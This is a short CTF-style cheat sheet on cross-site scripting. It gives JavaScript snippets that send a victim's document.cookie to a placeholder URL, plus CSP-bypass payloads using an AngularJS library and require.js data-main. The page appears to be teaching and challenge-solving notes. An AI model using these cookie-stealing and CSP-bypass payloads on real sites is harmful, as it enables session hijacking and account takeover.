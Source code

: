 ```yaml
---
id: xss
title: XSS
---
```


# XSS

XSS (Cross Site Scripting) is a type of attack in which malicious scripts are injected in a website and executed on the client browser.

There are three types of XSS:

-   reflective
-   stored
-   DOM-based.

## Send requests in Javascript

XSS challenges usually require to do a request with a secret value.
These snippets below are possible ways to do it.

```js
// this is a redirection, but it could be used too
document.location = "<url>?cookie=" + document.cookie;
```

```js
var request = new XMLHttpRequest();
request.open("GET", "<url>?cookie=" + document.cookie);
request.send(null);
```

```js
fetch("<url>?cookie=" + document.cookie);
```

## CSP bypasses

### JSONP endpoints

This technique is based on special JSONP endpoints that allows unsafe execution of malicious scripts.

Look [here](https://github.com/zigoo0/JSONBee/blob/master/jsonp.txt) for a list of the most common endpoints.

:::caution
If there are any CSP sources set, you should pay attention on which endpoint you are using.
:::

```html
<script src=//ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js></script>
<div ng-app ng-csp>{{$eval.constructor('alert(1)')()}}</div>
```

### require.js

If the website uses require.js, it is possible to load additional code that will be automatically injected.
This means that the code will be loaded together with require.js and so it will avoid any nonce or other CSP.

```js
<script data-main="data:1,alert(1)" src="require.js"></script>
```
